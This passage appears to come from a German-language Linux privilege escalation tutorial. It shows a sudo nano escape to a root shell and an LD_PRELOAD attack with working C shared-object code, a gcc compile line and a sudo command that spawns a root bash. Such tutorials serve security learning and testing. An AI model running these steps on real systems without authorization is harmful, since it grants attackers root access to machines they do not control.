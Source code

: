 hier Starten wir nano via `sudo nano` danach sorgen wir für Befehl Eingabe via `CTRL R`  `CTRL X` und weiten dann die Rechte via `reset; sh 1>&0 2>&0` aus und schon haben wir Root rechte


##### Ausnutzen von LD_PRELOAD

LD_PRELOAD ist eine Funktion die man auf manchen Systemen wiederfindet, sie wird dafür verwendet es jedem Programm zu ermöglichen gemeinsame Bibilotheken zu verwenden. Dieser Blog-Beitrag gibt einen Eindruck von den Möglichkeiten von LD_PRELOAD (https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/).
Wenn die Option „env_keep“ aktiviert ist, können wir eine gemeinsam genutzte Bibliothek erzeugen, die geladen und ausgeführt wird, bevor das Programm ausgeführt wird. Bitte beachten Sie, dass die LD_PRELOAD-Option ignoriert wird, wenn die reale Benutzer-ID nicht mit der effektiven Benutzer-ID übereinstimmt.

Hier Die schritte um die Lücke auszunutzen: 
- Prüfen ob LD_PRELOAD vorhanden ist (mit der Option env_keep)
- Schreiben eines einfachen C-Codes, der als Share Object-Datei (.so-Erweiterung) kompiliert wurde
- Ausführen des Programms mit sudo-Rechten und der Option LD_PRELOAD, die auf unsere .so-Datei zeigt

Beispielhafter C Code: 

```
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

Man kann diesen Code als shell.c speichern und mit gcc unter Verwendung der folgenden Parameter in eine gemeinsam genutzte Objektdatei kompilieren;

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Man kann die gemeinsame Objektdatei nun verwenden, wenn man ein beliebiges Programm startet, das der Benutzer mit sudo ausführen kann. In unserem Fall können Apache2, find oder fast jedes andere Programm, das wir mit sudo ausführen können, verwendet werden.

Man muss das Programm starten, indem man die Option LD_PRELOAD wie folgt angibt;

```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

Dies führt dazu, dass eine Shell mit Root-Rechten gestartet wird.

# Privilegien Eskalieren: SUID
